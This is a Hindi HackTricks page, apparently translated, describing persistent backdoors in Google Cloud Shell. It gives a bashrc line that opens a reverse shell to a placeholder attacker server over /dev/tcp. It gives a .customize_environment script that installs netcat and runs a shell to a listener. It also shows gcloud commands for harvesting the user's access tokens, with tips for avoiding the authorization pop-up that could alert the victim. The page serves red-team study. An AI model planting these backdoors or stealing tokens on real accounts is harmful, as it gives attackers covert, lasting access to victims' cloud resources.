 # GCP - क्लाउड शैल परिस्थिति

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## क्लाउड शैल

अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### स्थायी बैकडोर

[**Google Cloud Shell**](https://cloud.google.com/shell/) आपको अपने क्लाउड संसाधनों तक अपने ब्राउज़र से सीधे कमांड लाइन एक्सेस प्रदान करता है बिना किसी जुड़े लागत के।

आप **वेब कॉन्सोल** से या **`gcloud cloud-shell ssh`** चला कर Google के Cloud Shell तक पहुंच सकते हैं।

इस कॉन्सोल में हमलावरों के लिए कुछ दिलचस्प क्षमताएँ हैं:

1. **किसी भी Google उपयोगकर्ता को Google Cloud तक पहुंच** होती है एक पूरी तरह से प्रमाणित क्लाउड शैल इंस्टेंस (सर्विस अकाउंट्स, संगठन के मालिक होने के बावजूद भी, हो सकते हैं)।
2. कहा गया इंस्टेंस **कम से कम 120 दिनों तक अपने होम डायरेक्टरी को बनाए रखेगा** अगर कोई गतिविधि नहीं होती है।
3. उस इंस्टेंस की गतिविधि का **कोई संगठन की निगरानी करने की क्षमताएँ नहीं** हैं।

यह बुनियादी रूप से यह अर्थ है कि एक हमलावर उपयोगकर्ता की होम डायरेक्टरी में एक बैकडोर रख सकता है और जब तक उपयोगकर्ता कम से कम 120 दिनों के अंतराल पर GC शैल से कनेक्ट करता है, बैकडोर बना रहेगा और हमलावर को हर बार जब भी यह चलाया जाता है, शैल मिलेगा बस इसे इस तरह से चलाकर: 

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

होम फ़ोल्डर में एक और फ़ाइल है जिसका नाम है **`.customize_environment`** जो, अगर मौजूद है, तो **हर बार चलाया जाएगा** जब उपयोगकर्ता **क्लाउड शैल** तक पहुँचता है (पिछली तकनीक में की तरह)। बस पिछले बैकडोर को डालें या निम्नलिखित जैसा एक बैकडोर डालें ताकि उपयोगकर्ता "अक्सर" क्लाउड शैल का उपयोग करता रहे और स्थिरता बनी रहे:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
यह जरूरी है कि **पहली बार एक प्रमाणीकरण की आवश्यकता वाली कोई कार्रवाई की जाती है**, तो उपयोगकर्ता के ब्राउज़र में एक पॉप-अप अधिकारीकरण विंडो दिखाई देती है। इस विंडो को स्वीकार किया जाना चाहिए पहले कमांड चल सकता है। अगर अप्रत्याशित पॉप-अप दिखाई देता है, तो यह संदेह उत्पन्न कर सकता है और संभावित रूप से उपयोग किए जा रहे स्थायित्व विधि को क्षति पहुंचा सकता है।
{% endhint %}

यह उपयोगकर्ता द्वारा ब्राउज़र में देखी जाने वाली क्लाउड शैल (हमलावादी के रूप में) से `gcloud projects list` को निष्पादित करने पर पॉप-अप है:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

हालांकि, अगर उपयोगकर्ता ने सक्रिय रूप से क्लाउडशैल का उपयोग किया है, तो पॉप-अप नहीं दिखाई देगा और आप **उपयोगकर्ता के टोकन इकट्ठा कर सकते हैं**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### कैसे SSH कनेक्शन स्थापित होता है

मुख्य रूप से, इन 3 API कॉल का उपयोग किया जाता है:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (यह आपको अपनी स्थानीय रूप से बनाई गई पब्लिक कुंजी जोड़ने पर मदद करेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (यह आपको उदाहरण चालू करने पर मदद करेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (यह आपको गूगल क्लाउड शैल का आईपी बताएगा)

लेकिन आप [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) में अधिक जानकारी पा सकते हैं।

## संदर्भ

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}
